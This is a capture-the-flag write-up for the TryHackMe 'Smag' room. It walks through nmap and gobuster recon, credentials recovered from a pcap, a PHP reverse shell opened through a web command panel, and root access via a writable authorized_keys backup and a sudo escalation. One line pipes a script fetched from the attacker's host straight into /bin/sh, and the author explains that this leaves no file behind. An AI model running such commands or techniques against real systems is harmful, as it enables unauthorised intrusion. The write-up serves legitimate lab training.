# SmagWriteUp
So I'll show you my way to hack this very nice, but no so easy tryhackme room :
Smag
# Recon
First, we need to scan with nmap, as always :
![Capture d’écran de 2020-07-31 18-50-30](https://user-images.githubusercontent.com/50116433/89050911-b889b400-d353-11ea-8889-df85a7b67fdb.png)<br>
We see http and ssh. The apache webserver isn't vulnerable and ssh isn't either.
Let's run an nmap scan on all ports in the background, just in case : 
```nmap -p- 10.10.43.30```
# Get a shell
Now I wanna look at the webserver, but it's under construction so nothing appears to be here...
I added smag.thm to /etc/hosts, but nothing changed.

One thing you should do everytime you're on a webpage is checking the file extension. Here the index file is index.php
The webserver is running php. 
Let's run gobuster, since this is the only thing we can do now :
![Capture d’écran de 2020-07-31 18-58-27](https://user-images.githubusercontent.com/50116433/89051347-68f7b800-d354-11ea-887f-5454af53f124.png)<br><br>

You noticed that I used the .php extension, and the txt too ( I always, it's just in case )
After finding /mail we can see a page saying the server is using mail2web software to displays mails on the page, but I didn't find anything with it in searchsploit :(<br>
There is a .pcap file, after opening it in wireshark we can see an http request with a username and a password. 
<br><br>
![censored_stuff](https://user-images.githubusercontent.com/50116433/89052543-26cf7600-d356-11ea-8f2c-34e3d0ba5225.jpg)<br>
<br>
Nice ! I tried to use these in ssh but it didn't work.
We also notice that the http request is going to development.smag.htb, and after adding it to my /etc/hosts file,
The domain development.swag.thm is redirecting to a login page where we can login with the credentials we found earlier.<br>
There is an admin command pannel :
![Capture d’écran de 2020-07-31 19-08-13](https://user-images.githubusercontent.com/50116433/89053375-65b1fb80-d357-11ea-80c1-3d531d7418f1.png)<br><br>
I try to ping my machine, just to see if it works, I use tcpdump to listen for incoming ping request : <br>
```sudo tcpdump -i tun0 icmp and icmp[icmptype]=icmp-echo```<br>
Then I run the command on the webpage and tadaaa:<br>
![Capture d’écran de 2020-07-31 19-08-33](https://user-images.githubusercontent.com/50116433/89053686-e40e9d80-d357-11ea-92fe-cfa5eb7c0dd5.png)<br><br>
It's working ! Unfortunately, it's not displaying any output, even in the source code, so we cannot read flags.
I tried to wget a php file from my machine, and the file is downloaded correctly by the machine but somehow I couldn't have access to it with my browser... <br>
At this point I tried many reverse shells, but I was sending commands with burp, and they didn't worked because the url encoding wasn't correctly executed.<br>
I tried again few hours later but I was sending my reverse shells command from the website and after few minutes I remebered that the webserver was running php, so php should be installed on the machine. And it was : my reverse php shell worked !<br>
![Capture d’écran de 2020-07-31 19-11-31](https://user-images.githubusercontent.com/50116433/89054531-42884b80-d359-11ea-8237-04c09f3f4b4c.png)
# User Flag
So there is a user jake, but we cannot acces the flag in his home directory and we can't either read the .ssh folder.
Next step is to run our favourite enumeration tool : [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
I setup an http server on my computer with updog ( a very cool and easy to use http server ), then I run linpeas with the following command : <br>```curl 10.9.10.225:9090/linpeas.sh |/bin/sh```<br>
I do like this because here, no file is getting downloaded and it's invisible for the user.
After looking at the output ( it took some time ), I noticed a crontab executed by root :
![Capture d’écran de 2020-07-31 19-16-55](https://user-images.githubusercontent.com/50116433/89055602-f50cde00-d35a-11ea-8bf0-e53c1a050dd2.png)<br>
The root user is copying this file to jake's authorized_keys
We have write access to the /opt/.backups/jake_id_rsa.pub.backup file, so we can put our own .pub file here, and then connect to Jake with ssh !
Let's go to /dev/shm ( because we always have write access into it ) and use ssh-keygen.<br>
![Capture d’écran de 2020-07-31 19-20-22](https://user-images.githubusercontent.com/50116433/89055953-8bd99a80-d35b-11ea-94c3-a05746f862cc.png)<br>
After generating a public ssh key let's copy it to the jake .pub backup file :
```cp /dev/shm/id_rsa.pub /opt/.backups/jake_id_rsa.pub.backups```
Copy the id_rsa private key to our machine, wait a bit, then connect with ssh to jake's account :
![Capture d’écran de 2020-07-31 19-28-08](https://user-images.githubusercontent.com/50116433/89056343-289c3800-d35c-11ea-8310-bbb15cd4f7af.png)<br>
# Root Flag
Before running linpeas always check sudo -l permissions :
![Capture d’écran de 2020-07-31 19-28-32](https://user-images.githubusercontent.com/50116433/89056720-c263e500-d35c-11ea-84fb-28f79a977a73.png)<br>
There is a privesc with this on gtfobins ( even three ), the first one won't work because the machine isn't connected to internet, the second one may work but I'll try the third one because it fits on one line.<br>
![Capture d’écran de 2020-07-31 19-29-54](https://user-images.githubusercontent.com/50116433/89056972-2edee400-d35d-11ea-9660-564377550066.png)<br>
And we are root ! Thanks you [JakeDoesSec](https://tryhackme.com/p/JakeDoesSec) for this very nice room !<br>
[TryHackMe](https://tryhackme.com)

